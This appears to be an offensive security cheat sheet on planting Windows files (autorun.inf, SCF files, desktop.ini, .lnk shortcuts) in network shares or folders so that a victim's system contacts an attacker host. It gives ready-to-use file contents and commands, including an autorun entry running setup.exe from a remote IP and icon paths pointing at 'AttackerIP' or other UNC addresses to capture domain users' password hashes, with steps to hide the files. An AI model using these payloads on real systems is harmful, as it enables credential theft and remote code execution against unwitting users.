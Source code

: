 ## Autorun.inf

Starting from Windows 7 this feature is disabled. However you can enable by changing the group policy for Autorun. Make sure to hide the Autorun.inf file to work.

```
[autorun]
open=\\35.164.153.224\setup.exe
icon=something.ico
action=open Setup.exe
```

## Shell Command Files

It is possible to obtain passwords hashes of domain users or shells when writing permissions given to unauthenticated users. SCF (Shell Command Files) can perform a limited set of operations like showing the Windows desktop or opening a Windows Explorer. Save the code below as `ordinary.scf` and put it into a network share.

```
[Shell]
Command=2
IconFile=\\AttackerIP\ordinary.ico
[Taskbar]
Command=ToggleDesktop
```

## Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```

In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

```
[.ShellClassInfo]
IconFile=\\192.168.0.1\aa
IconIndex=1337
```

## Shortcut Files (.lnk)

We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.
